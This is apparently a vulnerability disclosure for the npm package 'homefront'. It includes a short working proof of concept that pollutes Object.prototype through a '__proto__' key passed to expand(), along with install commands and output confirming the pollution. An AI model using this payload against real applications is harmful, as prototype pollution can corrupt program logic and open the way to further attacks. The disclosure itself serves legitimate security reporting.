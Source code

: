 # Description

`homefront` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var homefront = require("homefront")
console.log("Before : " + {}.polluted);
homefront.expand({"__proto__.polluted": "Yes! Its Polluted"})
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i homefront # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
